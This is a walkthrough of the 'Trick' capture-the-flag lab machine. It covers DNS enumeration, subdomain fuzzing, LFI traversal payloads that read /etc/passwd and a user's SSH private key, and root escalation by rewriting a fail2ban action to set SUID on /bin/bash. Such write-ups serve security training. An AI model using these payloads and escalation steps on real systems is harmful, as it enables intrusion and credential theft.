

# Trick

Trick is a CTF that really pushes you to learn about DNS servers, reverse DNS lookup, fuzzing subdomains, LFI and a little bit of permission exploiting for privilege escalation.

## Enumeration

Start off with an NMAP scan, your command will look like this:
```
nmap -v -sC -sV -Pn <TARGET_IP>
```


Ports 22 (ssh), 25 (SMTP), 53 (DNS), 80 (http server) are up. This means that the attack vectors could be between the SMTP server, the DNS server or the http server running on the target machine. The existence of a DNS server implies that there may be domain names that can be enumerated. Run nslookup for a reverse DNS lookup, the set of commands will look like this:

```
nslookup

server <TARGET_IP>

<TARGET_IP>
```


`trick.htb` is the domain name for the target IP address. You have to update /etc/hosts and append each subdomain you come across to access it on your browser.

The next step would be to try looking for more domain names or subdomains via `dig` and `ffuf`. The commands would look something like this:

**dig**

```
dig axfr trick.htb @<TARGET_IP>
```


This reveals that we have `trick.htb` `root.trick.htb` and `preprod-payroll.trick.htb` that we can look into. The first 2 are useless, but the third one seems to have some value. Unfortunately, it leads us nowhere even if you get the credentials.

**ffuf**

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://trick.htb -H "Host: preprod-FUZZ.trick.htb" -fw 1697 -v -c
```



Almost immediately, `preprod-marketing.trick.htb` is shown as a subdomain. This is how your /etc/hosts file should look like by now:


This is what `preprod-marketing.trick.htb` looks like:


While clicking tabs like Services, About or Contact, the URL has a page parameter. This implies the existence of LFI (Local File Inclusion). We can test this by using this wordlist found on Payloads of all things: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Traversal.txt

## Foothold

Start of with a command like this to see if the web application is vulnerable to LFI:

```
ffuf -w Traversal.txt:FUZZ -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -fw 1 -v -c
```


`/..././..././..././..././..././..././..././..././etc/passwd` will print the /etc/passwd file. Here we see that there is a user called michael. Another important payload would be `/..././..././..././..././..././..././..././..././home/michael/.ssh/id_rsa`


Copy michael's private key and save it somewhere and use the `chmod 600 <FILE>` command on it in order to use the private key. (PS, make sure to format the private key properly. It won't recognize it unless you do so. Make sure to remove any extra spaces.)

With all this, the next step is to get a foothold, which is possible with SSH:

```
ssh -i id_rsa michael@10.10.11.166
```

Now, we have logged in to the target machine as michael and can view the use flag with the `cat user.txt` command.

## Privilege Escalation

Enter the command `sudo -l` to check if michael has permission to run as sudo.

> User michael may run the following commands on trick:
>
>   (root) NOPASSWD: /etc/init.d/fail2ban restart

This basically means that micheal can only run sudo with the mentioned command. Fail2ban is an IPS to protect systems from bruteforce attacks. Use the `id` command and we can see that michael is part of the security group.

Here on, you can use LinEnum or any other PrivEsc enumeration script, But I'm going to skip that part since you can do it yourself.

Use `find / -name fail2ban 2>/dev/null` to locate the config files for fail2ban, which can be found here `/etc/fail2ban`. 


2 important things to note are:
- `action.d` is owned by the security group, so we can make edits there
- `jail.conf` tells us that fail2ban is enabled on ssh and banaction is configured in a file called `iptables-multiport`

Here on out, you have to be quick, because crontabs will reset the configuration files ever 3 minutes. `iptables_multiport` can be found in `action.d`

Run `vim iptables-multiport.conf`, scroll down and replace `actionban` and `actionunban` with these 2 lines:
- `actionban = chmod +s /bin/bash`
- `actionunban = chmod +s /bin/bash`

Save it with `:wq!` and then restart the service with `sudo /etc/init.d/fail2ban restart`. Go to your attacking machine and try to get yourself banned by typing an incorrect password for SSH authentication. After about 2 rounds of it, you should see that /bin/bash has got a SUID bit added to it. Run `bash -p` and read the flag using `cat /root/root.txt`
